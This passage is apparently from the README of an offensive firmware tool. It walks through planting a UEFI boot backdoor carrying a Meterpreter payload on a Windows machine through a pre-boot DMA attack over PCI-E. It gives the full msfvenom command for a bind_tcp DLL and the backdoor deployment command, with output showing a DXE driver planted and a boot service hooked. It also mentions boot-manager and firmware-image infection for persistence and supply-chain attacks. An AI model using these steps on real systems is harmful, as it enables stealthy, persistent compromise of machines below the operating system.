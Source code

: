 
## Using boot backdoor with Meterpreter payload

As it was mentioned above, you can use Boot Backdoor with any payload from the Metasploit framework, for example &minus; Meterpreter. Same as with Micro Backdoor, it's more suitable to use Meterpreter while deploying Boot Backdoor with [Windows boot manager image file infection](#deploying-the-backdoor-using-windows-boot-manager-infection) (for persistence) or with [firmware flash image infection](#deploying-the-backdoor-using-firmware-flash-image-infection) (as part of the supply chain attack), but in this example it will be shown how to use it for pre-boot DMA attacks.  

First of all, you need to generate Meterpreter payload as DLL image file with `msfvenom` command, in this example we will use its `bind_tcp` variation:

```
$ msfvenom -p windows/x64/meterpreter/bind_tcp lport=4444 -a x64 -f dll -o meterpreter_bind_tcp_4444.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No encoder specified, outputting raw payload
Payload size: 496 bytes
Final size of dll file: 8704 bytes
Saved as: meterpreter_bind_tcp_4444.dll
```

Please pay attention to the payload architecture, it must match architecture of the target system: i.e., Boot Backdoor can't run 32-bit x86 payloads on 64-bit x86_64 Windows system.  

Now you can use `uefi_backdoor_boot.py` program with Meterpreter payload in the same way as it was described in [Deploying the backdoor using pre-Boot DMA attack](#deploying-the-backdoor-using-pre-boot-dma-attack) section:

```
$ ./uefi_backdoor_boot.py --payload meterpreter_bind_tcp_4444.dll
[+] 8704 bytes of payload image read
[+] 2054 bytes of payload image after the compression
[+] Using UEFI system table hook injection method
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Looking for DXE driver PE image...
[+] PE image is at 0x7a070000
[+] EFI_SYSTEM_TABLE is at 0x7a03e018
[+] EFI_BOOT_SERVICES is at 0x7a38fa30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0xfd1a
Backdoor entry RVA is 0x908
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c0908
1.679938 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed, you can read its debug messages by running this program with --debug-output option
[+] Waiting for backdoor load...
[+] Winload image was loaded

              Image base: 0x0086a000
 OslArchTransferToKernel: 0x009c4b20

[+] DONE
```


[05/01/21 03:50:00 AM]: Log file path is "/Users/d_olex/tc/_PoC/MicroBackdoor/server/server.log"
[05/01/21 03:50:00 AM]: Starting backdoor server at address 0.0.0.0:28115
[05/01/21 03:50:00 AM]: server.py PID = 59724, PGID = 59724